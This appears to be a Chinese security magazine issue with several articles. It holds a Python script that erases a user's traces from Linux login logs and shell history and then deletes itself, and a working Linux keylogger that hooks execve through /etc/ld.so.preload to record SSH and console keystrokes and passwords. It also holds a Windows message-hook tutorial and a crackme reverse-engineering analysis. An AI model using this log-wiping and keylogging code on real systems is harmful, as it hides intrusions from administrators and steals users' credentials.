介绍完各个日志文件，下面介绍如何通过 Python 来自动清理当前用户的操作记录。首先通过命令“who -m”来获取当前用户的用户名、登录时间、登录 IP 等信息，以及使用“id -u usr”来获得用户名对应的 UID。接下来休眠 30 秒，让用户充分退出，最后分别执行各种日志的清理操作，以及删除脚本源代码。

```python
def main():
    login_info=os.popen('who -m').read().split()
    usr=login_info[0]
    ip=login_info[-1][1:-1]
    uid=os.popen('id -u '+usr).read()
    print login_info
    print usr,ip,uid

    os.popen('cp ~/.bash_history ~/.bash_history.test')
    time.sleep(30) #30s
    clean_secure(usr,ip)
    clean_btmp(ip)
    clean_wtmp(ip)
    clean_lastlog(uid)
    clean_faillog(usr)
    clean_bash_history()
    os.popen('rm -fr CleanLogs.py')
```

auth.log/secure 是文本文件，不同的系统对应的文件不一样，首先要确定是哪个日志文件。注意到用户登入的日志有特征“Accepted password for root from 10.0.0.1”，因此可以通过用户名和登录 IP 来识别 sshd 的 PID，如图1所示。清理日志时则根据 sshd 的 PID 特征来清理。

```python
def clean_secure(usr,ip):
    file_name=''
    if os.path.exists('/var/log/secure'):
        file_name='secure'
    elif os.path.exists('/var/log/auth.log'):
        file_name='auth.log'
    if file_name=='':
        print "secure/auth.log doesn't exist"
        return

    print 'Clean: '+file_name
    f1 =open('/var/log/'+file_name,'r')
    f2 =open(file_name+'.test','w')
    pid=''
    for line in f1:
        if 'Accepted password for '+usr+' from '+ip in line:
            pid=line.split()[4]
            print '    '+pid
    f1.seek(0)
```

```python
for line in f1:
    if pid not in line:
        f2.write(line + '\n')
f1.close()
f2.close()
os.popen('mv ' + file_name + '.test ' + '/var/log/' + file_name)
```

btmp 和 wtmp 是二进制文件，我获得的日志文件格式和网上描述的 struct 信息不匹配，只好用 WinHex 对文件进行拆解。发现 btmp 的每条记录占用 384 字节，最新的记录放在文件的尾部；wtmp 的每条记录也是占用 384 字节，最新的记录插入到文件的开头。本文以登录的 IP 地址作为关键字来区分保留/删除的记录。

```python
def clean_xtmp(file_name, ip):
    if os.path.exists('/var/log/' + file_name) == False:
        print file_name + " doesn't exists!"
        return
    file_size = os.path.getsize('/var/log/' + file_name)
    if file_size % 384 != 0:
        print file_name + ' error!'
        return
    print 'Clean: ' + file_name
    f1 = open('/var/log/' + file_name, 'r')
    f2 = open(file_name + '.test', 'w')
    n = file_size / 384
    for i in xrange(n):  # from old to new
        info = f1.read(384)
        if ip not in info:
            f2.write(info)
    f1.close()
    f2.close()
    os.popen('mv ' + file_name + '.test ' + '/var/log/' + file_name)
```

lastlog 是记录每个用户的最后登录时间，这个文件记录 UID [0, max(UID)] 的登录信息，不管 UID 对应的用户存不存在。lastlog 的文件大小等于 292 byte * (max(UID)+1)，从 UID 0 开始按顺序存放。因此，本文根据用户的 UID 值把对应的记录清零。

```python
def clean_lastlog(uid):
    if os.path.exists('/var/log/lastlog') == False:
        print "lastlog doesn't exists!"
        return
    file_size = os.path.getsize('/var/log/lastlog')
    if file_size % 292 != 0:
        print 'lastlog error!'
        return
    print 'Clean: lastlog'
    f1 = open('/var/log/lastlog', 'r')
    f2 = open('lastlog.test', 'w')
    n = file_size / 292
    for i in xrange(n):
        if i != int(uid):
            f1.seek(i * 292)
            f2.write(f1.read(292))
        else:
            f2.write('\0' * 292)
    f1.close()
    f2.close()
    os.popen('mv lastlog.test ' + '/var/log/lastlog')
```

faillog 记录不成功的登录企图，Linux 有提供相应的重置命令“faillog -r -u root”，直接执行就好了。命令行操作是在终端退出后写入 .bash_history，可以先备份 .bash_history，在用户退出后对 .bash_history 进行还原，这样就不会记录执行过的命令了。

本文主要介绍了 Linux 系统中的六个关键日志，以及清理的一点方法。代码在 Red Hat AS5、Ubuntu 12.04、Fedora 6.2 测试通过。如有不当，还望斧正。

## 编写 Linux 键盘记录器

文/图 unity

在 Linux 系统实现键盘记录有很多种方法，这里我们采用最稳定的 hook 方法来实现。作为一台服务器，最常见的登录方式就是物理登录（tty）或者 ssh 登录（pty）了。对于前者，流程是这样的：首先 init 会启动一个 tty 监听程序，这个程序负责验证登录，一旦验证成功，就会直接调用 login 让用户登录，然后 login 会启动用户的 shell。后者呢，如果没有对 sshd 进行配置，默认情况下是 sshd 这个进程直接执行用户 shell 进行登录。

所以，如果我们控制了命令执行的函数，在登录的时候，劫持某些子进程的输入输出，就可以嗅探键盘的输入。

### Hook 命令执行函数

经过观察，在 CentOS 上 login 调用 execvp 去启动 bash 程序；sshd 则使用 execve 去执行 bash，因此我们就来 hook 这两个函数。Hook 采用 glibc hook 的方法实现。

```c
static int (*o_execve) (const char *, char *const*, char *const*) = NULL;
int execve(const char *filename, char *const argv[],
           char *const envp[])
{
    if (o_execve == NULL)
        o_execve = (int (*)(const char *, char *const*, char *const*))
            dlsym(RTLD_NEXT, "execve");

    inject(filename);      // 我们的劫持函数
    return o_execve(filename, argv, envp);
}
```

将其编译成动态库，然后在 /etc/ld.so.preload 中添加这个 so 的绝对路径，就可以劫持函数了。

### 劫持输入输出

我们现在控制了命令执行函数，那么怎么劫持程序的输入输出呢？首先我们申请一个新的 pty，然后 fork 出一个子进程，把自己的输入输出都绑定到新的 pty 去，然后正常执行函数。父进程则负责监听这个 pty 是否有新的输入输出（这里只贴出关键代码）。

```c
// 看看是不是想要劫持的程序
if (! (strncmp(parent, "/bin/login", strlen(parent)) == 0
        && strncmp(file, "/bin/bash", strlen(file)) == 0)
    && ! (strncmp(parent, "/usr/sbin/sshd", strlen(parent)) == 0
        && strncmp(file, "/bin/bash", strlen(file)) == 0))
    goto out;

// 申请新的 pty，增加读写权限
if ((master_fd = posix_openpt(O_RDWR | O_NOCTTY)) == -1
    || grantpt(master_fd) == -1
    || unlockpt(master_fd) == -1)
    goto out;

if ((pid = fork()) == -1)
    goto out;
else if (pid == 0) {    /* 分离子进程 */
    setsid();
    int slave_fd = open(ptsname(master_fd), O_RDWR);
    // 绑定输入、输出
    dup2(slave_fd, 0);
    dup2(slave_fd, 1);
    dup2(slave_fd, 2);
    close(slave_fd);
    close(master_fd);
    // 返回执行命令
    goto out;
} else {
    int status;
    struct termios original, settings;
    char output[255] = {0};
    tcgetattr(0, &original);

    // 关闭 echo，我们手动同步输入输出
    settings = original;
    cfmakeraw(&settings);
    tcsetattr(0, TCSANOW, &settings);

    // 日志文件路径，按照时间和用户名区分，我们不关心他的登录方式
    snprintf(output, sizeof(output), "/tmp/%s.%s", get_timestr(), get_username());
    logfd = open(output, O_WRONLY | O_APPEND | O_CREAT, 0644);
    if (logfd > 0) {
        // 监听输入输出
        do_select(master_fd);

        close(logfd);
        close(master_fd);
        // 还原终端属性
        tcsetattr(0, TCSANOW, &original);
        waitpid(pid, &status, 0);
    }
    exit(0);
}
```

监听读写的函数就比较简单了，如果 stdin 有输入，就先记录日志，再写回原先的 pty；反过来，如果原始终端有输出，就写回 stdout。

```c
void do_select(int fd)
{
    fd_set fds;
    while (1) {
        FD_ZERO(&fds);
        FD_SET(0, &fds);
        FD_SET(fd, &fds);
        if (select(fd + 1, &fds, 0, 0, 0) == -1)
            break;

        /* stdin -> master */
        if (FD_ISSET(0, &fds))
            if (!do_sync(0, fd, 1))
                break;

        /* master -> stdout */
        if (FD_ISSET(fd, &fds))
            if (!do_sync(fd, 1, 0))
                break;
    }
}
```

最后在 do_sync 里面，我们解析一下输入的字符串，写下日志就可以了。

### 实战

我们找一台 CentOS 做测试，编译安装后，我们让系统添加这个 so，输入“echo '/execve.so' > /etc/ld.so.preload”就可以了。现在重启一下 sshd，这个 so 就被注入到 sshd 进程了，下面我们来测试一下效果。

登录 ssh，随便输入几个命令，比如“ls /; ssh root@localhost”（输入一下密码看看）。现在我们打开日志，日志文件默认存储路径是 /tmp/时间.用户名，如图 1 所示。



图 1

可以看到，用户在 9:11 的时候连接了另外一台主机，输入的密码是 123456（本程序在 CentOS 5、6 上测试通过）。

## Windows 的消息钩子机制

文/图 王晓松

大导演斯皮尔伯格曾经拍过一部叫做“霍克船长”的电影，主人公霍克船长，手没了，挂了个钩子，“霍克”就是“hook”的音译，中文直译就是“钩子”。在 Windows 中也有 hook 的概念，就是我们常说的挂钩技术。挂钩技术一个比较典型的应用就是早期的输入法实现，基本原理就是当我们切换到输入法时，输入法进程挂钩了系统中的按键消息，当有按键发生，就对接收到的英文字符进行收集，并转换为一个个的中文备选项供用户选择，当用户按下选择键，再将中文字符发送给目标进程。当然，这是早期输入法的实现，目前微软提供了专门的输入法接口，输入法的设计者能够将主要的精力放于输入法本身的功能，其实现简单规范，就不再使用钩子这种底层技术了。

### SetWindowsHookEx 函数的使用

我们知道，Windows 的窗口是靠消息机制驱动的，Windows 系统提供了消息钩子的机制帮助用户完成对消息的截获、修改、转发。钩子分为局部钩子和全局钩子，其区别在于局部钩子只是针对当前进程的，而全局钩子是全系统范围的，我们将重点放在全局钩子上。

使用全局钩子涉及到两个文件：设置钩子的文件和钩子代码所在的文件。比如目前有这样的需求，进程 1 需要挂钩全局的键盘消息，当有按键发生时，此时进程 2 正在运行，那么如何执行进程 1 设置的代码呢？全局钩子机制实现的方法是将钩子代码放于一个动态链接库（DLL）中，如果在进程 2 运行期间发生了按键消息，则由系统将设定的动态链接库载入进程 2 的空间，并将代码指针指向 DLL 中的钩子代码。



图 1 全局钩子的示例

涉及全局钩子的文件有二，我们分别道来。

- ① 置钩子的文件

使用钩子最典型的函数是 SetWindowsHookEx，其调用代码为：

```c
HHOOK SetWindowsHookEx(int idHook, HOOKPROC lpfn, HINSTANCE hMod, DWORD dwThreadId);
```

idHook 表示安装的钩子类型。Windows 提供的钩子类型有很多种，都是以 WH_ 开头，其中 WH 是 Windows Hook 的缩写。可以挂钩的消息有 15 个之多，如 WH_CALLWNDPROC、WH_CBT、WH_DEBUG、WH_KEYBOARD、WH_MOUSE 等，其中最为常用的就是对于键盘、鼠标事件的挂钩 WH_KEYBOARD 和 WH_MOUSE。对于每种消息挂钩的具体内容，有兴趣的朋友可以查看相关资料。

- `lpfn`：回调函数指针；
- `hMod`：包含钩子函数的模块句柄，只在全局钩子中使用；
- `dwThreadId`：Hook 线程句柄，用来在监视特定线程时使用，针对全系统的钩子，该参数为 `NULL`。

举个例子，如我们要挂钩全局性的键盘消息，挂钩代码所在的文件为 HookDll.dll，在 c:\windows 目录下，DLL 文件中需要执行的钩子代码函数为 myHookproc，那么通过函数 SetWindowsHookEx 设置钩子的使用示例如下：

```c
HookProc hkproc;
HINSTANCE hDll;
HHOOK hmyHook;
hDll = LoadLibrary((LPCTSTR)"c:\\windows\\HookDll.dll"); // 加载 DLL 库文件
hkproc = (HookProc)GetProcAddress(hDll, "myHookproc");   // 取库文件中的过程函数
hmyHook = SetWindowsHookEx(WH_KEYBOARD, hkproc, hDll, 0); // 设置钩子
```

上述代码的结构非常清晰，为了加载全局钩子，首先用户要将钩子代码编写在一个 DLL 文件中，当需要设置钩子时，首先调用 LoadLibrary 函数加载该 DLL 文件，并将其句柄保存在变量 hDll 中，然后使用 GetProcAddress 函数取得在该库文件中钩子代码函数的地址，保存在变量 hkproc 中，最后直接调用 SetWindowsHookEx 函数，说明消息钩子的类型，并以变量 hDll 和 hkproc 作为参数传递进去，完成钩子函数的挂钩。

用户卸载钩子也很简单，卸载钩子的函数为：UnhookWindowsHookEx(HHOOK hhk)，其中参数 HHOOK hhk 为使用 SetWindowsHookEx 函数后获得的钩子句柄。当该函数被调用，则对应的钩子从钩子链表中摘除，并释放其占用的内存。

- ② 包含钩子代码的文件

包含钩子代码的文件是一个标准的 DLL 文件，钩子代码作为一个回调函数，有着固定的格式，具体如下：

```c
LRESULT CALLBACK WndProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    过程中的代码;
}
```

其中 WndProc 为用户自定义的函数名称，三个参数 nCode、wParam、lParam 是由系统调用时传入的，用于提供挂钩消息的信息。nCode 依赖于挂钩消息的类型，不同的消息类型，nCode 的取值范围也不相同，而 wParam 和 lParam 的取值依赖于 nCode。举个例子，我们挂钩了键盘消息，那么 nCode 的取值就可以为 HC_ACTION 和 HC_NOREMOVE，而 wParam 存储的是 WM_KEYUP 或者 WM_KEYDOWN 类似的信息，lParam 存储的是按键更详细的信息，比如按键的虚拟码、扫描码等。

### 多个钩子的级联

对于同一种消息，可以有多个钩子函数对其进行挂钩，以满足多个应用挂钩系统消息的要求。这些钩子形成一个链表，如图 2 所示。这个钩子链表的使用有两点需要注意，一是对于新挂钩的钩子会放于链表的前端，首先得到处理，即越晚加入链表的钩子，当消息发生时越早得到处理。



图 2 多个钩子的连接

二是在这个链表中，下一级钩子要得到消息处理，需要上一级调用函数。

CallNextHookEx 函数的调用决定了是否将挂钩的消息传递给挂钩链表中的下一个节点。如果在一个挂钩点程序中没有调用 CallNextHookEx 函数，那么该消息也不会在该挂钩链表中传递，从而后面的挂钩程序将没有机会去处理该消息。因此可以说，谁最后挂钩，谁就取得了消息处理第一手的控制权，可以决定后面的挂钩程序能否得到该消息。其中 CallNextHookEx 函数的原型为：

```c
LRESULT CallNextHookEx(HHOOK hhk, int nCode, WPARAM wParam, LPARAM lParam);
```

- hhk：当前钩子的句柄，由 SetWindowsHookEx 返回。
- nCode：事件代码。
- wParam：消息的类型。
- lParam：包含的消息。

CallNextHookEx 函数的调用是在钩子代码中，即上面提到的 WndProc(nCode, wParam, lParam)，其参数 nCode、wParam、lParam 也就完全继承自该函数，直接传递即可。

```c
LRESULT CALLBACK WndProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    过程中的代码;
    return CallNextHookEx(hhk, nCode, wParam, lParam);
}
```

当我们的某一级钩子得到处理控制权后，对该消息的处理可以有不同的需求，如屏蔽该消息，使得正常的消息处理机制好像没有出现过该消息一样；也可以将该消息不传递给钩子链表其余的钩子，而直接进入正常的消息处理机制。当然，比较礼貌的方式是自身处理完成后传递到下一个钩子处理函数，直到所有的钩子函数得到处理，再进入正常的消息处理机制。通过对 CallNextHookEx 函数的是否调用以及钩子代码的不同返回值，用户可以实现以下三种不同的需求。

- 第一种情况是钩子正常生效，并传递给消息处理函数，那么在钩子代码中调用 `return CallNextHookEx(...)`。
- 第二种情况是令后面的钩子函数无法得到处理的机会，但是使用正常的消息处理函数，则调用 `return 0;`。
- 第三种情况是令正常的消息处理函数也无法得到处理的机会，那么调用 `return 1;`。



图 3 对消息不同的处理

## 一些说明

除了 WH_KEYBOARD、WH_MOUSE，Windows 还提供了一种低级钩子：WH_KEYBOARD_LL 和 WH_MOUSE_LL，其中 LL 的含义就是 Low Level，低阶的意思。WH_KEYBOARD 和 WH_KEYBOARD_LL 的区别在于前者是在应用程序调用 GetMessage 或者 PeekMessage 获取键盘消息时触发，而后者是当一个键盘输入事件插入到线程的输入队列时调用的。



图 4 两种钩子触发的位置

很显然，消息 WH_MOUSE_LL 的捕捉是在消息 WH_KEYBOARD 之前，WH_MOUSE_LL 是建立在系统范围内全局性的钩子。网上有一些介绍某知名聊天软件键盘保护原理的文章，首先大家要理解网上一些盗号软件的原理。如果你对本篇文章前面的介绍理解得比较清楚，那么就很容易想到，通过 SetWindowsHookEx 函数就可以设置全局键盘钩子，截获用户输入的密码后，再交由目标程序进行处理即可。为了防止这种情况的发生，被保护进程在启动之初就设置了 WH_KEYBOARD_LL 钩子，因为 WH_KEYBOARD_LL 钩子在 WH_KEYBOARD 钩子之前进行处理，因此设置的钩子会首先获得消息处理的控制权，取得输入的密码后直接使用 `return 1` 取消对该消息的传递，从而就有效避免了该消息被恶意进程截获。

但是问题又来了，如果恶意进程在最开始就挂钩了 WH_KEYBOARD_LL 消息呢？还记得吗？在一个钩子链条中，后来的钩子会排在前面，并且最先得到处理，而其可以决定是将该消息传递给下一个钩子，还是交给目标程序，或者直接将该消息丢弃。保护进程采取的措施是每隔一段时间就挂钩该 WH_KEYBOARD_LL 消息，这样将该钩子排在前面，保证在大多数情况下能够首先获得消息的控制权。

本文中使用的钩子技术主要是围绕着 SetWindowsHookEx/CallNextHookEx 函数展开的。安全界还有一种钩子技术，学术名称是 inline hook，它所实现的原理实际上就是修改 Windows API 中的代码，达到改变程序流程、隐藏代码的目的。其典型实现机制是：在 API 开头首先将需要挂钩的 API 函数的头 5 个字节保存在一个地方，然后在 API 开头用一条 `JMP XXXXXXXX` 指令替代，`XXXXXXXX` 是修改者需要执行代码的起始处，隐藏代码执行完成后，将头 5 个字节的指令改回，程序跳转回该 API 开头执行，像是什么也没有发生过。本文中的挂钩机制主要是使用系统提供的钩子机制对消息进行挂钩，以一种较为合法的方式完成用户消息的挂钩。

## 小结

本文介绍了 Windows 中的消息钩子机制，重点在于全局钩子的使用和内部机制。需要注意的是，全局钩子会占用相当的系统资源，影响系统的反应时间，因此使用要慎重，不使用时要进行 unhook 脱钩操作。另外，读者要重点理解对消息的不同处理体现在对 CallNextHookEx 函数的调用细节上。

（完）

## 一个 Crackme 的浮点算法分析

文/图 kevines

这个 Crackme 是很早以前在网上下载的，无壳，LCC 编译的 C 语言程序，爆破太简单，今天有时间就研究一下其注册算法，也算是恢复一下手感。该 Crackme 的运行界面如图 1 所示，注册失败的界面如图 2 所示。



图 1 软件运行界面



图 2 注册失败界面

直接上 OD，点击运行，输入假码，按“Register”，弹出注册失败对话框，如图 3 所示。



图 3 载入 OD 后

此时不要急着点击“确定”，先暂停 OD，Alt+F9 执行到用户代码，再点击“确定”，此时 OD 返回到 00401308，如图 4 所示。



图 4 返回到用户代码

往上看，004012DC 刚好跳过了注册成功提示，导致注册失败，直接将此处跳转 NOP 掉即可实现完美爆破。004012B5 和 004012C5 的两处 GetDlgItemTextA 函数分别获取用户名和密码。显然 004012D2 处的 CALL 就是关键 CALL，注册算法的核心，在此下断点，重新载入程序。

```asm
0040134A    55          push ebp
0040134B    89E5        mov ebp, esp
0040134D    83EC 68     sub esp, 68
00401350    FF75 08     push dword ptr [ebp+8]      ; 用户名
00401353    E8 78010000 call <jmp.&CRTDLL.atof>
00401358    DD55 E8     fst qword ptr [ebp-18]      ; [ebp-18]=atof(用户名)
0040135B    83EC 08     sub esp, 8
0040135E    DD1C24      fstp qword ptr [esp]
00401361    E8 82010000 call <jmp.&CRTDLL.floor>
00401366    DD5D F8     fstp qword ptr [ebp-8]      ; [ebp-8]=floor(用户名)
00401369    FF75 0C     push dword ptr [ebp+C]      ; 注册码
0040136C    E8 5F010000 call <jmp.&CRTDLL.atof>
00401371    DD55 D8     fst qword ptr [ebp-28]      ; [ebp-28]=atof(注册码)
00401374    83EC 08     sub esp, 8
00401377    DD1C24      fstp qword ptr [esp]
```

```asm
0040137A    E8 69010000      call <jmp.&CRTDLL.floor>
0040137F    83C4 18          add esp, 18
00401382    DD55 F0          fst qword ptr [ebp-10]        ; [ebp-10]=floor(注册码)
00401385    DC4D F8          fmul qword ptr [ebp-8]        ; X1=floor(注册码)*floor(用户名)

00401388    D9EE             fldz
0040138A    DED9             fcompp                        ; X1 和 0 比较
0040138C    DFE0             fstsw ax
0040138E    9E               sahf
0040138F    75 07            jnz short 00401398           ; ==失败；!=继续检测
00401391    31C0             xor eax, eax
00401393    E9 96000000      jmp 0040142E
00401398    DD45 F8          fld qword ptr [ebp-8]
0040139B    DC5D F0          fcomp qword ptr [ebp-10]      ; floor(注册码)和floor(用户名)比较
0040139E    DFE0             fstsw ax
004013A0    9E               sahf
004013A1    75 07            jnz short 004013AA           ; ==失败；!=继续检测
004013A3    31C0             xor eax, eax
004013A5    E9 84000000      jmp 0040142E
004013AA    DD45 F8          fld qword ptr [ebp-8]
004013AD    DD5D C8          fstp qword ptr [ebp-38]
004013B0    D9E8             fld1
004013B2    DD55 C0          fst qword ptr [ebp-40]
004013B5    DC5D C8          fcomp qword ptr [ebp-38]      ; 1 和 floor(用户名)比较
004013B8    DFE0             fstsw ax
004013BA    9E               sahf
004013BB    77 2D            ja short 004013EA            ; 大于则失败，小于等于可以继续

004013BD    DF2D 38304000    fild qword ptr [403038]       ; 1.0*10e10
004013C3    DD55 B8          fst qword ptr [ebp-48]
004013C6    DC5D C8          fcomp qword ptr [ebp-38]      ; 1.0*10e10 和 floor(用户名)比较
004013C9    DFE0             fstsw ax
004013CB    9E               sahf
004013CC    72 1C            jb short 004013EA            ; 小于则失败，大于等于可以继续

004013CE    DD45 F0          fld qword ptr [ebp-10]
004013D1    DD5D B0          fstp qword ptr [ebp-50]
